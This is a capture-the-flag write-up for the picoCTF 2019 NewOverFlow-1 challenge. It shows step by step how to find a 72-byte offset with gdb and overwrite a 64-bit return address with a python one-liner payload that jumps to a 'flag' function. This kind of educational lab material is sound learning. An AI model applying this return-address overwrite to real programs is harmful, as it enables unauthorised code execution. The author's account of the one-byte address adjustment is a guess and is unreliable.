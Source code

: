 This is x64 bits, so the registers name are different `ebp` now is `rbp` and the `esp` is `rsp`, and ofcourse the address 
size is 64bits. 

```
$file vuln && checksec vuln
vuln: setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=e23bfe0b85a0d6c535131ca42d2565187b179fa1, not stripped
[*] '/problems/newoverflow-1_5_bd04c7682164df72135e036dd527b668/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


It is the same as [OverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/OverFlow1.MD), where we need to 
control the `rip` to jump to `flag` function. 

1- let's get flag address
```
$readelf -s vuln|grep flag
70: 0000000000400767   101 FUNC    GLOBAL DEFAULT   13 flag
```
`flag` function address is `0x0000000000400767`

2- Let's find the offset between the start of the `buf` and the `rip` (which is `$rbp+16`).

We will set break point just after gets function, then find where the 
```
$gdb vuln
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq 
   0x00000000004007e7 <+27>:    retq   
End of assembler dump.
(gdb)b *0x00000000004007e5
(gdb)run 
AAAAAAAAAAAAAAAAA
(gdb) x/100x $rsp
0x7ffff4508970: 0x41414141      0x41414141      0x41414141      0x41414141
0x7ffff4508980: 0x00400041      0x00000000      0x4fe3cb62      0x00007fb7
...
<note AAA starts at 0x7ffff4508970 address, which is the begining of the buf>
(gdb)p/d $rbp-0x7ffff4508970
$3 = 64
```
We find the start of the buf (which in this case is the same as the stack pointer) `0x7ffff4508970`, then we compute the 
offset between buf and $rbp (64bytes) we need to add 64bits (i.e. 8bytes) to find the shift to the $rip. 

So the offset is 64bytes+8bytes = 72bytes

Note: $rip is one address above the $rbp.

3- let's now fill the offset with dump `A` and put the `flag` address on the `$rip` location.
```
python -c 'import struct; print("A"*72+struct.pack("<I",0x0000000000400768) )'|./vuln
```
For some reason I had to add one byte to the add of `flag` function.

I found that the address if we use `info add <fun name>` is different by one byte. So maybe we should use `info add` to get the address
```
(gdb)info add flag
0x0000000000400768
```

